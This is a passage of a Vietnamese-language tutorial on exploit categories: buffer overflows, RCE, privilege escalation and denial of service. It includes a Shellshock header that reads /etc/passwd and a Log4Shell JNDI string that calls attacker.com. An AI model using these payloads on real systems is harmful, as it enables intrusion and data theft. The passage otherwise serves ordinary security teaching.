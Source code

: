 **Exploit:**
```
Input: "A" * 64 + "B" * 4 + shellcode_address
→ Overwrite return address
→ Jump to shellcode
→ Execute arbitrary code
```

**Heap-based buffer overflow:**
Overflow buffer trên heap để overwrite:
- Function pointers
- Object metadata
- Malloc/free structures

---

**2. Remote Code Execution (RCE):**

**Ví dụ: Shellshock (CVE-2014-6271):**
```bash
User-Agent: () { :; }; /bin/bash -c "cat /etc/passwd"
```
Bash vulnerable version thực thi code sau `() { :; };`

**Ví dụ: Log4Shell (CVE-2021-44228):**
```
${jndi:ldap://attacker.com/exploit}
```
Log4j thực thi JNDI lookup → RCE

---

**3. Privilege Escalation:**

**Vertical:** User → Root
```bash
# CVE-2021-4034: PwnKit
# Exploit polkit để escalate lên root
./exploit
# uid=1000(user) → uid=0(root)
```

**Horizontal:** User A → User B
```bash
# Access tokens theft, session hijacking
```

---

**4. Denial of Service Exploits:**

**Example: Ping of Death:**
```
Gửi ICMP packet lớn hơn 65,535 bytes (qua fragmentation)
→ Buffer overflow khi reassemble
→ System crash
```

**Example: Teardrop:**
```
Fragment 1: Offset=0, Len=100
Fragment 2: Offset=50, Len=100 (overlap)
→ Integer underflow khi reassemble
→ System crash
```

---